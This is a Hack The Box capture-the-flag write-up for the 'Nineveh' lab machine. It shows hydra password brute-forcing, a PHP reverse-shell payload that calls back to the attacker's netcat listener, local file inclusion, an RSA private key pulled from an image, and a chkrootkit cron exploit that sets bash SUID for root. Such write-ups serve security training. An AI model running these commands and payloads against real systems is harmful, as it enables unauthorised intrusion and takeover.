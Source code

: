 ```yaml
---

title: 🟠 HTB - Nineveh
author: Acivik
date: 2025-01-24 16:00:00 +0300 
categories: [CTF, Hack The Box]
tags: [hackthebox, ctf, hacking, writeup, Nineveh, walkthrough, medium, linux]

---
```


![https://i.ibb.co/bPLJxfZ/Nineveh.png](https://i.ibb.co/bPLJxfZ/Nineveh.png)

---

# <span style="color:#AA0E1C"><b># Reconnaissance</b></span>

## <span style="color:#0096FF">Nmap</span>

nmap detected 2 open TCP ports: 80 (HTTP), 443(HTTPS)

```bash
root@kali:~/HTB/nineveh# nmap -p- 10.10.10.43 --min-rate 10000 -sVC --open
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 19:50 UTC
Nmap scan report for 10.10.10.43 (10.10.10.43)
Host is up (0.071s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.20 seconds
root@kali:~/HTB/nineveh#
```

There is domain in the TLS certificate `commonName=nineveh.htb`

# <span style="color:#AA0E1C"><b># Enumeration</b></span>

## <span style="color:#0096FF">HTTP - 80/tcp</span>

![https://i.ibb.co/qWb2LBQ/Ekran-g-r-nt-s-2025-01-15-173806.png](https://i.ibb.co/qWb2LBQ/Ekran-g-r-nt-s-2025-01-15-173806.png)

### <span style="color:#FFC300">Dir & Files</span>

```bash
/info.php
/department/login.php
```

`/info.php` → phpinfo page

`/department/login.php`

![https://i.ibb.co/hY4B86F/Ekran-g-r-nt-s-2025-01-15-010240.png](https://i.ibb.co/hY4B86F/Ekran-g-r-nt-s-2025-01-15-010240.png)

`demo:demo`

![https://i.ibb.co/0nxTQY2/Ekran-g-r-nt-s-2025-01-15-010205.png](https://i.ibb.co/0nxTQY2/Ekran-g-r-nt-s-2025-01-15-010205.png)

`admin:admin`

we can identify a username of admin. I’ll run `hydra`

```bash
root@kali:~/HTB/nineveh# hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!" -V -I
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
```

`admin:1q2w3e4r5t`

![https://i.ibb.co/tJVp33x/resim-2025-01-15-174720872.png](https://i.ibb.co/tJVp33x/resim-2025-01-15-174720872.png)

## <span style="color:#0096FF">HTTPS - 443/tcp</span>

### <span style="color:#FFC300">Dir & Files</span>

```bash
/db/index.php
/db/
```

![https://i.ibb.co/H4gTB7d/Ekran-g-r-nt-s-2025-01-15-174309.png](https://i.ibb.co/H4gTB7d/Ekran-g-r-nt-s-2025-01-15-174309.png)

I’ll run `hydra` again.

```bash
root@kali:~/HTB/nineveh# hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -V -R -I
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
```

`password123`

![https://i.ibb.co/q5CXzb6/Ekran-g-r-nt-s-2025-01-15-010806.png](https://i.ibb.co/q5CXzb6/Ekran-g-r-nt-s-2025-01-15-010806.png)

# <span style="color:#AA0E1C"><b># Foothold: Shell as www-data</b></span>

Found LFI at http page

![https://i.ibb.co/Yhs1b7Q/Ekran-g-r-nt-s-2025-01-15-010511.png](https://i.ibb.co/Yhs1b7Q/Ekran-g-r-nt-s-2025-01-15-010511.png)

There is a vuln for `phpliteadmin 1.9.3`  at https page

[PHPLiteAdmin 1.9.3 - Remote PHP Code Injection](https://www.exploit-db.com/exploits/24044)

my payload is there

```bash
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 1213 >/tmp/f') ?>
```

Create a database and a table. Place payload as the table name, as shown in the screenshot.

![https://i.ibb.co/VCWZKT9/Ekran-g-r-nt-s-2025-01-15-180018.png](https://i.ibb.co/VCWZKT9/Ekran-g-r-nt-s-2025-01-15-180018.png)

I’m calling this payload using LFI.

http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../var/tmp/injection.php

```bash
root@kali:~/HTB/nineveh# nc -lnvp 1213
listening on [any] 1213 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.43] 38596
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@nineveh:/var/www/html/department$
```

# <span style="color:#AA0E1C"><b># Privilege Escalation: www-data → amrois</b></span>

I ran linpeas,sh

```bash
══╣ Possible private SSH keys were found!
/var/www/ssl/secure_notes/nineveh.png
```

it found the ssh key hidden in the image

```bash
www-data@nineveh:/tmp$ strings /var/www/ssl/secure_notes/nineveh.png

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
```

# <span style="color:#AA0E1C"><b># Privilege Escalation: amrois → root</b></span>

I’ll monitor the processes with `pspy`

```bash
2025/01/15 03:28:01 CMD: UID=0     PID=23024  | /bin/sh /usr/bin/chkrootkit
```

Chkrootkit is a tool used to detect signs of rootkits on a system.

```bash
root@kali:~/HTB/nineveh# searchsploit chkrootkit
---------------------------------------------------- ----------------------------------------
 Exploit Title                                      |  Path
                                                    | (/usr/share/exploitdb/)
---------------------------------------------------- ----------------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit | exploits/linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation        | exploits/linux/local/33899.txt
---------------------------------------------------- ----------------------------------------
Shellcodes: No Result
root@kali:~/HTB/nineveh#
```

We will try to exploit this tool.

Exploit source code:

```bash
def exploit
    print_warning('Rooting depends on the crontab (this could take a while)')

    write_file('/tmp/update', "#!/bin/sh\n(#{payload.encoded}) &\n")
    cmd_exec('chmod +x /tmp/update')
    register_file_for_cleanup('/tmp/update')

    print_status('Payload written to /tmp/update')
    print_status('Waiting for chkrootkit to run via cron...')
  end
```

Let's do it manually

```bash
amrois@nineveh:/tmp$ echo -e "#!/bin/bash" > /tmp/update
-bash: !/bin/bash: event not found
amrois@nineveh:/tmp$ echo '#!/bin/bash' > /tmp/update
amrois@nineveh:/tmp$ echo 'chmod +s /bin/bash' >> /tmp/update
amrois@nineveh:/tmp$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
amrois@nineveh:/tmp$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 Jun 24  2016 /bin/bash
amrois@nineveh:/tmp$ /bin/bash -p
bash-4.3# cat /root/root.txt
7bdb243112e29e7f1b70c809e3084423
bash-4.3#
```

We got root!